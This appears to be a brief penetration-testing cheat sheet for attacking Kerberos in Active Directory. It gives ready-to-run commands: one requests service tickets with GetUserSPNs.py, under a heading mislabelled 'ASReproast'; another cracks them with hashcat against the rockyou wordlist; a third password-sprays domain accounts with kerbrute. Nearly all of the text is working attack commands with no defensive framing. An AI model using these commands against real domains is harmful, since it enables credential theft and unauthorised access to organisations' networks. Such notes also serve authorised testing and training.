 # Kerberos

### ASReproast

```
python3 /usr/local/bin/GetUserSPNs.py domain.com/user:password -dc-ip $ip -request
```

```
hashcat -d 2 krb5tgs.txt -m 13100 -a 0 /usr/share/wordlists/rockyou.txt
```

### Password Spraying

_Kerbrute_

```
kerbrute passwordspray -d domain.com --dc $ip users.txt
```
